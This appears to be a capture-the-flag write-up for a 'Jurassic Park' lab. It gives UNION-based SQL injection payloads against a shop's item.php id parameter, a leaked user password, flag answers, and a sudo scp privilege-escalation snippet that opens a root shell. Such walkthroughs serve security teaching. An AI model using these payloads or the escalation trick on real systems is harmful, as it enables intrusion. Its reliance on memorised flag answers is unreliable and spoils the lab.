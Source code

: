 # JURASSIC PARK

## BASIC INFO 
```
export IP=10.10.79.179

```

Blocked character found on $IP/item.php?id=5
```
' # DROP - username @
```
Found SQLi with this.
`$IP/item.php?1 union select 1, 2, 3, 4, 5`

```
system username = root@localhost
system version = ubuntu 16.04

username = dennis
password = ih8dinos
```
## JURASSIC PARK CTF

> - **What is the SQL database called which is serving the shop information?**
>> park

`UNION SELECT 1, database(), 3, 4, 5`

> - **How many columns does the table have?**
>> 5

`UNION SELECT 1, 2, 3, 4, 5`

> - **Whats the system version?**
>> ubuntu 16.04

`UNION SELECT 1, system(), 3, 4, 5`

> - **What is dennis' password?**
>> ih8dinos

`UNION SELECT 1, password, 3, 4, 5 FROM users`

> - **Locate and get the first flag contents.**
>> b89f2d69c56b9981ac92dd267f

`cat flag1.txt`

> - **Whats the contents of the second flag?**
>> 96ccd6b429be8c9a4b501c7a0b117b0a

Inside .viminfo there is the location of flag 2

> - **Whats the contents of the third flag?**
>> b4973bbc9053807856ec815db25fb3f1

Inside .bash_history

> - **There is no fourth flag.**
>> No asnwer needed

> - **Whats the contents of the fifth flag?**
>> 2a7074e491fcacc7eeba97808dc5e2ec

`sudo -l` to check what command we can run. Looks like we can run scp. Check on gtfobins.

```
TF=$(mktemp)
echo 'sh 0<&2 1>&2' > $TF
chmod +x "$TF"
sudo scp -S $TF x y:
```
Now we are root. `cat /root/flag5.txt`